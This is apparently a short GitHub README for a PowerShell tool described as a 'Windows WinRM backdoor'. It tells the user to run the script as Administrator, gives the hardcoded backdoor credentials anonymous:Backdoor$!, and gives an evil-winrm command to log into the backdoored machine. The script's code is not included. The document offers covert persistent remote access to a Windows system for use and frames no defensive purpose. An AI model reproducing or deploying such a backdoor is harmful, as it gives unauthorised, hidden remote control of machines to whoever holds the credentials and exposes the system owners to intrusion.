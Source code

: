 <h1>WINDOWS WINRM BACKDOOR</h1>

<ul>
  <li>This script runs backdoor with winrm. To use this script you need admin privilages. So run powershell as Administrator. After that you can login to your backdored system with this creds `anonymous:Backdoor$!`</li>
</ul>

<h1>USAGE:</h1>
<br>

powershell
`.\backdoor`

<br>
<h1>LOGIN</h1>
<br>
bash

`evil-winrm -i IP -u anonymous -p 'Backdoor$!'`
